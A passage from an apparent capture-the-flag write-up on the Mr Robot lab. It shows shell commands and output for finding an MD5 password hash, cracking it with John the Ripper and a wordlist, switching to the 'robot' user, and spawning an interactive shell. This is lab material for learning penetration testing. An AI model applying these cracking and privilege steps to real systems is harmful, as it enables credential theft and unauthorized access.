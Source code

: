 found `/home/robot` flag, can't read flag, but can read the other file:

```bash
ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```

### Crack

copied this password.raw-md5 to my local to crack with john.

```bash
RxHackk 福 ~/Repos/RxHack/THM/OFFENSIVEPENTESTPATH/MR_ROBOT/crack ➤ a14b989|main⚡
458 💀 ± ➤ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5.hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)
1g 0:00:00:02 DONE (2022-04-03 12:21) 0.4975g/s 20155p/s 20155c/s 20155C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

RxHackk 福 ~/Repos/RxHack/THM/OFFENSIVEPENTESTPATH/MR_ROBOT/crack ➤ a14b989|main⚡
459 💀 ± ➤ john --show
Password files required, but none specified

RxHackk 福 ~/Repos/RxHack/THM/OFFENSIVEPENTESTPATH/MR_ROBOT/crack ➤ a14b989|main⚡
460 💀 ± ➤ john --show md5.hash
0 password hashes cracked, 2 left

RxHackk 福 ~/Repos/RxHack/THM/OFFENSIVEPENTESTPATH/MR_ROBOT/crack ➤ a14b989|main⚡
461 💀 ± ➤ john --show --format=Raw-MD5 md5.hash
robot:abcdefghijklmnopqrstuvwxyz

1 password hash cracked, 0 left
```

### privesc: user

su to `robot` user and get the flag

```bash
su - robot
su - robot
abcdefghijklmnopqrstuvwxyz

id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
cat key-2-of-3.txt
cat key-2-of-3.txt
```
